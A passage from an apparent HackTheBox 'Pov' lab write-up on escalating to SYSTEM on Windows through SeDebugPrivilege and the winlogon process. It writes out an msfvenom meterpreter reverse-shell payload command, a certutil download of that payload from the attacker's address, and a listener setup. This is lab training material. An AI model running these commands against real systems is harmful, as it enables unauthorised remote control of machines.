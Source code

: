 
#### Reverse Shell

Since mimikatz didn't work out, let's try to spawn a reverse shell as the administrator.

We are going to mock the process running as the system and spawn a reverse shell using it's privilege. 

**Winlogon** usually has the system privilege. Let's check out it's process ID:

`Get-Process winlogon`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-25.png)

With the process ID noted, let's create a reverse shell payload using msfvenom:

`sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=3456 -f exe -o payload.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-27.png)

We will transfer the payload to the target system:

`certutil.exe -urlcache -split -f http://10.10.14.36:1234/payload.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-28.png)

Now we are almost done. We have...

- Enabled SeDebugPrivilege using psgetsys.ps1
- Noted process running as system
- Transferred payload

We will set up a listener using **msfconsole** meterpreter:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-29.png)
